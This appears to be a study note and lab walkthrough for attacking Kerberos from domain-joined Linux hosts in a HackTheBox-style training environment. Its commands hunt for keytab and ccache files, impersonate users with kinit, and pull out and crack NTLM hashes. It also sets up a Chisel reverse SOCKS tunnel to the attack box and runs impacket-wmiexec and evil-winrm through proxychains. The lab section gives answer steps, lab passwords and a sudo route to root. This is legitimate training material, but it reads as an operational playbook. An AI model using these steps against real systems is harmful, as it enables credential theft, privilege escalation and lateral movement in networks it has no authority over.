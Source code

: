 # Workflow

#### Intel Gather

1. Check If Linux Machine is Domain Joined
    - Realm utility command `realm list`
    - ps utility command `ps -ef | grep -i "winbind\|sssd"`
2. Using Find to Search for Files with Keytab in the Name `find / -name *keytab* -ls 2>/dev/null`
3. Identifying Keytab Files in Cronjobs `crontab -l` it may also show the utility used to interact with kerberos
4. Location of ccache files
    - Check env variable `KRB5CCNAME` for ccache file
    - Another location is /tmp
5. Check the user for which the ccache file is using `klist -k -t`

#### Exploits

> **Note**: `kinit` is **case-sensitive**. Confirm name of principle matches.

> **Note**: Using Impacket tools from a Linux machine connected to the domain, note that some Linux Active Directory implementations use the FILE: prefix in the KRB5CCNAME variable. If this is the case, the variable must be modified to only include the path to the ccache file.

1. Spoofing using the keytab file using `kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab`.
2. Crack account password by extracting hashes in the keytab file. Utility for this task [KeyTabExtract](https://github.com/sosdave/KeyTabExtract) it will extract info such as realm, Service Principal, Encryption type and hashes.
    - Use `python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab`
    > **Note**: A keytab file can contain different types of hashes and can be merged to contain multiple credentials even from different users.
    > **Note**: `klist` only displays the ticket info like start and expire date. ccache files are temporary.
    - Use `hashcat` or `johntheripper` to crack the NTLM hash
    - Websites like https://crackstation.net/ can be used for the same purpose
    - After logging in as the user look for more hashes
    - If we gain read privilege on a keytab file. Only the owner of the file or root can read the file.
    - Look for tickets `present in machine`, `who they belong to` and `the expiration time`
    - Use `id` to check the details of the user from the keytab file in the machine
    - To use a ccache file, we can copy the ccache file and assign the file path to the `KRB5CCNAME` variable.
3. To use other linux tools to attack `AD`. We need
    - For a domain-joined machine `KRB5CCNAME` env variable must be set.
    - In case the machine has not joined the domain example the attack box must be able to contact the KDC or the domain controller and Domain Resolution is working.
    - If the attack box cannot establish a connection to KDC/Domain Controller, a proxy must be configured with tools such as [Chisel](https://github.com/jpillora/chisel) and [Proxychains](https://github.com/haad/proxychains) and /etx/hosts must have the target machines and domain ip's hardcoded.
    - Set up proxychains config file to use socks5 and port 1080
    - Execute chisel on the attack box(pwnbox) with `sudo ./chisel server --reverse`
    - From the foothold execute `c:\tools\chisel.exe client <attack_box_ip> R:socks`
    - Using Impacket with proxychains and Kerberos Authentication the target name must be specified not its ip. use the flag `-k` and if password prompt needs to be skipped use `-no-pass`. like `proxychains impacket-wmiexec dc01 -k`
4. To use `evil-winrm`
    - kerberos package called krb5-user must be installed
    - A prompt to set up realm will show up during installation. Provide the domain for the attack
    - if the krb5-user configuration has to be changed the file is at `/etc/krb5.conf`
    - Using Evil-WinRM with Kerberos `proxychains evil-winrm -i dc01 -r inlanefreight.htb`
    - [impacket-ticketconverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) can be used to convert ccache file in windows and kirbi file in linux like `impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi`
    - [Linikatz](https://github.com/CiscoCXSecurity/linikatz) is the tool to use in linux machines connected to the `AD`. To take advantage of it use it in root privileges.


## Lab

Connect to the target machine using SSH to the port TCP/2222 and the provided credentials. Read the flag in David's home directory.

- `ssh -p 2222 david@inlanefreight.htb@<ip>`

Which group can connect to LINUX01? 

- `realm list`

Look for a keytab file that you have read and write access. Submit the file name as a response.

- `find / -type f -name *keytab* 2>/dev/null`

Extract the hashes from the keytab file you found, crack the password, log in as the user and submit the flag in the user's home directory.

- `python3 keytabextractor.py <path_to_file>`
- Use https://www.crackstation.net to crack the NTLM hash

Check Carlos' crontab, and look for keytabs to which Carlos has access. Try to get the credentials of the user svc_workstations and use them to authenticate via SSH. Submit the flag.txt in svc_workstations' home directory

- `su carlos@inlanefreight.htb`
- Password: Password5
- `crontab -l`
- detected a cronjob of executing a script at `.scripts/kerberos_script_test.sh`
- investigating the script resulted in the discovery of the keytab file for svc_workstations with the name `svc_workstations.kt`
- Extracting hashes with `keytabextractor.py` and decoding it using https://www.crackstation.net/
- `su svc_workstations@inlanefreight.htb`
- Password: Password4
- `cd ~`
- `cat flag.txt`

Check svc_workstation's sudo privileges and get access as root. Submit the flag in /root/flag.txt directory as the response.

- Checking sudoers file for the current account using `sudo -l` resulting in the discovery of the account in the sudoers file
- Switching user to root `sudo su`
- Password: Password4
- Navigate to home directory to find the file

Check the /tmp directory and find Julio's Kerberos ticket (ccache file). Import the ticket and read the contents of julio.txt from the domain share folder \\\\DC01\julio.

- As root checking the /tmp directory will result in the discovery of 2 `krb5cc` files belonging to julio@inlanefreight.htb
- Changing environment variable `KRB5CCNAME` to the path of one of these files will result in klist approving as julio
- Using smbclient to interact with the share and retriving the flag 
    `smbclient //dc01/julio`

Use the LINUX01$ Kerberos ticket to read the flag found in \\\\DC01\linux01. Submit the contents as your response (the flag starts with Us1nG_). 

- Looking for all the keytab files using find `find / -type f -name *keytab* 2>/dev/null` will result in the discovery of krb5.keytab
- Using `kinit` to use the keytab to spoof as `LINUX01$@INLANEFREIGHT.HTB` 
    `kinit LINUX01$@INLANEFREIGHT.HTB -k -t /etc/krb5.keytab`
- Using smbclient to access the //dc01/linux01 share and retrieve the flag

### Optional exercise

